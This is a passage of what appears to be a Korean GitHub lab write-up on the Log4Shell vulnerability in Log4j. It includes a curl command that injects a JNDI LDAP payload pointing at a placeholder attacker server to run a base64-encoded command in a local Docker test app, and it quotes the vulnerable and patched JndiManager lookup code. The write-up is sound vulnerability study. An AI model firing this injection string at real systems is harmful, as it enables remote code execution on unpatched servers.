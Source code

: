    <br>
   

2. **LDAP 서버에서 원격 코드 실행 (RCE)**

   공격코드 부분 : (dG91Y2ggL3RtcC9wd25lZAo= -> touch /tmp/pwned)

   ```shell
   curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://myip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
   ```
  
   ![5](https://user-images.githubusercontent.com/89399749/163977091-4f348cfe-6b68-4e03-a377-79ece783e2ee.png)

   <br>

   

3. 도커 컨테이너 내부에 pwned 파일이 생성되었는지 확인

   ```shell
   docker exec vulnerable-app ls /tmp
   ```

   ![6](https://user-images.githubusercontent.com/89399749/163977153-84d6954f-2985-4839-b8e4-ce0f9438e15b.png)

   <br>
   

## 3. 원인 분석

취악점을 발생시키게 한 코드이며 JndiManager.java 파일에 JNDI lookup 기능에서 발견

```java
* @throws  NamingException if a naming exception is encountered
   */
  @SuppressWarnings("unchecked")
  public <T> T lookup(final String name) throws NamingException {
      return (T) this.context.lookup(name);
  }

  private static class JndiManagerFactory implements ManagerFactory<JndiManager, Properties> {

      @Override
      public JndiManager createManager(final String name, final Properties data) {
        ry {
              return new JndiManager(name, new InitialContext(data));
          } catch (final NamingException e) {
              LOGGER.error("Error creating JNDI InitialContext.", e);
              return null;
          }
      }
  }
```

```java
public synchronized <T> T lookup(final String name) throws NamingException {
       try {
           URI uri = new URI(name);
           if (uri.getScheme() != null) {
               if (!allowedProtocols.contains(uri.getScheme().toLowerCase(Locale.ROOT))) {
                   LOGGER.warn("Log4j JNDI does not allow protocol {}", uri.getScheme());
                   return null;
               }
               if (LDAP.equalsIgnoreCase(uri.getScheme()) || LDAPS.equalsIgnoreCase(uri.getScheme())) {
                   if (!allowedHosts.contains(uri.getHost())) {
                       LOGGER.warn("Attempt to access ldap server not in allowed list");
                       return null;
                   }
```